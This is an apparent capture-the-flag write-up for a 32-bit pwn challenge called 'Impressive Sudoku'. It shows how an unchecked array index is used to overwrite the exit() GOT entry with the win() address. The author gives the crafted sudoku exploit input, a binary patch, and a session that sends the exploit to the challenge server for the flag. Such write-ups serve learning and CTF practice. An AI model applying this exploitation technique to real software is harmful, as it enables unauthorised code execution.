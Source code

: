 # Impressive Sudoku - pwn, math

> First we asked you to solve a sudoku, now we want you to make one.

Service: nc 3.93.128.89 1218

Download: [4964615443db994db372a3d64524510452521f09809fdb50da22e83d15fb48ca.tar.gz](https://advent2019.s3.amazonaws.com/4964615443db994db372a3d64524510452521f09809fdb50da22e83d15fb48ca.tar.gz)

## Initial Analysis

For this pwn, we're given a C source file along with a compiled binary. This certainly makes the disassembly or reversing part of this challenge easier.

The source asks for a solved sudoku and checks that its valid using an arithmetic shortcut - checking the sum and product of each row. If this passes, it writes 8 values to a "scorer" array, multiplies 9 values in the scorer array, and if the result is > a large value prints a flag. Given that only 8 values are written, this score will always be zero (since at least one value will be zero). Furthermore, writing the scores to the "scorer" array doesn't do any bounds checking so we likely can perform an arbitrary write if we can construct a sudoku

The compiled binary is a 32-bit binary. Based on my initial analysis, I was a little confused about the binary's hardening features. In particular, running `hardening-check` (in the `devscripts` package on Ubuntu) and `readelf` (in the `binutils` package on Ubuntu) clearly inidicate that read-only relocations is enabled (RELRO):

```
root@2b94168a6ea8:/day18# hardening-check ./chal
./chal:
 Position Independent Executable: no, normal executable!
 Stack protected: yes
 Fortify Source functions: unknown, no protectable libc functions used
 Read-only relocations: yes
 Immediate binding: no, not found!
root@2b94168a6ea8:/day18# 
root@2b94168a6ea8:/day18# readelf -l ./chal

Elf file type is EXEC (Executable file)
Entry point 0x8048470
There are 9 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00120 0x00120 R   0x4
  INTERP         0x000154 0x08048154 0x08048154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x00c78 0x00c78 R E 0x1000
  LOAD           0x000f0c 0x08049f0c 0x08049f0c 0x00124 0x002dc RW  0x1000
  DYNAMIC        0x000f14 0x08049f14 0x08049f14 0x000e8 0x000e8 RW  0x4
  NOTE           0x000168 0x08048168 0x08048168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x000aa0 0x08048aa0 0x08048aa0 0x0005c 0x0005c R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
  GNU_RELRO      0x000f0c 0x08049f0c 0x08049f0c 0x000f4 0x000f4 R   0x1

 Section to Segment mapping:
  Segment Sections...
   00     
   01     .interp 
   02     .interp .note.ABI-tag .note.gnu.build-id .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rel.dyn .rel.plt .init .plt .plt.got .text .fini .rodata .eh_frame_hdr .eh_frame 
   03     .init_array .fini_array .dynamic .got .got.plt .data .bss 
   04     .dynamic 
   05     .note.ABI-tag .note.gnu.build-id 
   06     .eh_frame_hdr 
   07     
   08     .init_array .fini_array .dynamic .got 
```

However, digging a little further, we can see that the global offset table (GOT) actually starts at address 0x0804a000 - after the `GNU_RELRO` section, and in fact that page is marked read-write when the binary is running:

```
root@2b94168a6ea8:/day18# ./chal
Could you give me a fully solved sudoku?
Enter 9 lines, each containing 9 integers, space separated:
^Z
[1]+  Stopped                 ./chal
root@2b94168a6ea8:/day18# cat /proc/`pidof chal`/maps
08048000-08049000 r-xp 00000000 00:4d 20354301                           /day18/chal
08049000-0804a000 r--p 00000000 00:4d 20354301                           /day18/chal
0804a000-0804b000 rw-p 00001000 00:4d 20354301                           /day18/chal 			<--- the GOT is in this page
f74fb000-f76d0000 r-xp 00000000 08:01 316321                             /lib/i386-linux-gnu/libc-2.27.so
f76d0000-f76d1000 ---p 001d5000 08:01 316321                             /lib/i386-linux-gnu/libc-2.27.so
f76d1000-f76d3000 r--p 001d5000 08:01 316321                             /lib/i386-linux-gnu/libc-2.27.so
f76d3000-f76d4000 rw-p 001d7000 08:01 316321                             /lib/i386-linux-gnu/libc-2.27.so
f76d4000-f76d7000 rw-p 00000000 00:00 0 
f76dc000-f76de000 rw-p 00000000 00:00 0 
f76de000-f76e0000 r--p 00000000 00:00 0                                  [vvar]
f76e0000-f76e1000 r-xp 00000000 00:00 0                                  [vdso]
f76e1000-f7707000 r-xp 00000000 08:01 316317                             /lib/i386-linux-gnu/ld-2.27.so
f7707000-f7708000 r--p 00025000 08:01 316317                             /lib/i386-linux-gnu/ld-2.27.so
f7708000-f7709000 rw-p 00026000 08:01 316317                             /lib/i386-linux-gnu/ld-2.27.so
ffc08000-ffc29000 rw-p 00000000 00:00 0                                  [stack]
```

As you can see above, the binary is also not randomized, so all addresses in `chal` should be fixed. With this in mind, my goal was now to overwrite the `exit()` address in the GOT with the "scorer" writes from a valid sudoku.

Also, if you couldn't tell already, I did most of my testing in an Ubuntu docker container with my working directory mounted at `/day18`. I started this with:

```
$ docker run -it --cap-add=ALL -v `pwd`:/day18 ubuntu:latest
```

## Creating the overwrite

The first step to this was going to be to solve the overwrite part. To check just this alone, I just edited the `chal` binary so that the `check()` funtion always returned 1. This was done by patching the bytes at address 0x000005F0 with `B8 01 00 00 00 C3` which is x86 assembly for "mov eax, 1; ret".

Next, I calculated that if I had a sudoku with "-105" in position (7,7), and 0x08048799 (the address for the `win()` function), then the loop

```c
for (int i = 0; i < 8; i++) {
    scorer[sudoku[i][i]] = sudoku[i + 1][i + 1];
}
```

would correctly set the address of `exit()` in the GOT with the win function. Since the binary is 32-bit and all of the sudoku values are integers, we can adjust these two values mod 2^32 to get the following. Testing this out on our patched binary gives us the flag (locally).

```
root@2b94168a6ea8:/day18# echo winwinwin > flag.txt
root@2b94168a6ea8:/day18# ./chal_nocheck 
Could you give me a fully solved sudoku?
Enter 9 lines, each containing 9 integers, space separated:
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
Let me take a look...
That is an unimpressive sudoku.
winwinwin
root@2b94168a6ea8:/day18# 
```

Now, all I needed to do was have those two values in my sudoku, and create the rest of the square to not touch any other sensitive memory addresses (and cause something like a segfault).

## The math

As the category for this sudoku alluded to, there was not some math to dig into. The only check on the sudoku is that the product and sum of each row, column, and 3x3 grid come to 45 and 362880 respectively. To simplify the problem, if we can create one row with our two target values, several low-value integers, and then some other values, then we should be able to pass these two checks and also not attempt to access we shouldn't when computiing the "solver" array.

To simplify the problem, I decided that I would create a row with my two target values, a bunch of "1"s, and then two "bad" values that would fix the math for the check function, but not appear on the diagonal. With one row in hand, I could make sure that the nine values from that row occurred in each row, column, and 3x3 grid while at the same time making sure that values I didn't like wouldn't appear on the diagonal.

I also chose two variable values because the problem boiled down to two equations (multiply & addition), and two unknowns. In retrospect, I probably could have just run an exhaust on all 2^32 possibilities, but I went the difficult route of solving a quadratic equation modulo 2^32. The math is a little lengthy to describe here, but you can read it in my [solver script](./solutions/day19_solver.py).

Running the script in total outputs my sudoku, and then piping the result to the service gives the flag:

```
$ ./day19_solver.py 
1 134514585 1 317322728 1 1 4294967191 3843130128 1
317322728 1 1 4294967191 3843130128 1 1 134514585 1
4294967191 3843130128 1 1 134514585 1 317322728 1 1
134514585 1 317322728 1 1 4294967191 3843130128 1 1
3843130128 1 1 134514585 1 317322728 1 1 4294967191
1 1 4294967191 3843130128 1 1 134514585 1 317322728
1 4294967191 3843130128 1 1 134514585 1 317322728 1
1 1 134514585 1 317322728 1 1 4294967191 3843130128
1 317322728 1 1 4294967191 3843130128 1 1 134514585
$ ./day19_solver.py | nc 3.93.128.89 1218
Could you give me a fully solved sudoku?
Enter 9 lines, each containing 9 integers, space separated:
Let me take a look...
That is an unimpressive sudoku.
AOTW{Th3t_is_such_aN_1mpr3ssive_Sud0ku}$ 
```
